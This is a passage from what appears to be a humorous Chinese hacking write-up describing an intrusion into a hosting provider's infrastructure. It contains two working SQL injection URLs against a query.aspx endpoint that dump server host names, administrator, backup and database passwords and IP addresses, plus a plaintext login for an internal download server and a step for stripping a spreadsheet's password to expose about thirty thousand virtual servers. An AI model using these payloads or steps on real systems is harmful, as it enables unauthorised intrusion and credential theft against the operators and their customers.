 图8 短了0.06GHz，王海何在

一时兴起，想探究为何IIS被设置为32位模式，谁知……

![](http://drops.javaweb.org/uploads/images/c21bf7124229db9d03fc8b74bb8cfa6dbd36f7f6.jpg)

图9 XXX模块无法运行于64位模式

是夜，秋风渐起凉人意，咱晒晒山寨代码暖和一下。

![](http://drops.javaweb.org/uploads/images/f9f9320dc441e521f24756984879bdf49bf3142d.jpg)

图10 256位AES

我自罚三杯，早早地睡了，想到明日就可实现不睡懒觉的伟大理想，辗转反侧。

翌日，我错过了最后一个肉包子。还是大师说的对，“施主，吃素有益健康，请把肉施舍给老衲吧，哦米拖佛。”

0x04 三颗蓝宝石
==========

* * *

掘的过程犹如筛沙，漫长而无聊，今日稍加展示三颗璀璨的蓝宝石。

第一枚，vhcon.XXX.com漏点。查询vminfo表：

```
http://vhcon.XXX.com/taskmanstatus/query.aspx?likename=cnd%27 union all Select top 100 Convert(Nvarchar(4000),[主机名]%2bChar(124)%2b[adm口令]%2bchar(124)%2b[bka口令]%2bchar(124)%2b[数据库口令]%2bchar(124)%2b[主IP]%2bchar(124)%2b[从IP]%2bchar(124)%2b[主机类型]%2bchar(124)%2b[系统类型]%2bchar(124)%2b[系统版本]%2bchar(124)%2b[出厂编号]%2bchar(124)%2b[机房位置]%2bchar(124)%2b[从IP情况说明]%2bchar(124)%2b[组号]%2bchar(124)%2b[内网IP]%2bchar(124)%2b[城市]%2bchar(124)%2b[服务商]%2bchar(124)%2b[机房]%2bchar(124)%2b[服务器类型]%2bChar(124)%2bconvert(nvarchar(400),[id])) as servername,[主IP] as chkuserdir  From [hiconnect_db]..[vminfo];--&act=loadtask&taskname=chkuserdir&tasktype=unmatch&

```

查询keyplatform表。对于这个keyplatform，我曾经做过非常深入的问卷调查，全国人民一致表示资历尚浅，弄不清这西洋文~~~后经专家的权威认证，Key是钥匙，platform是平台，而后专家缓缓地闭上眼，想像出平台上挂满了钥匙的场景。如此渊博的学识，无怪已经入选了社科院，佩服佩服。

```
http://vhcon.XXX.com/taskmanstatus/query.aspx?likename=cnd%27 union all Select top 1000 Convert(Nvarchar(4000),[hostname]%2bChar(124)%2b[wanip]%2bchar(124)%2b[lanip]%2bchar(124)%2b[username]%2bchar(124)%2b[password]%2bchar(124)%2b[conip]%2bchar(124)%2bconvert(nvarchar(200),[contype])%2bchar(124)%2b[os]%2bchar(124)%2b[dev]%2bchar(124)%2b[pe]%2bchar(124)%2bconvert(nvarchar(200),[appgroup])%2bchar(124)%2b[city]%2bchar(124)%2b[jifang]%2bchar(124)%2b[apps]%2bchar(124)%2bconvert(nvarchar(200),[ifdel])%2bChar(124)%2bconvert(nvarchar(400),[id])) as servername,[hostname] as chkuserdir  From [hiconnect_db]..[keyplatform];--&act=loadtask&taskname=chkuserdir&tasktype=unmatch&

```

![](http://drops.javaweb.org/uploads/images/ab7eb642b801b30f257ab7eaa9a6b436ffa25718.jpg)

图12 keyplatform

第二枚，立足于XXX的服务器，访问opdown.XXX.com，用户名civilink，密码opdown。下载HiConnectClient.zip，解压后将“常用表格-虚机.xls”去除密码，三万台虚拟服务器一目了然。
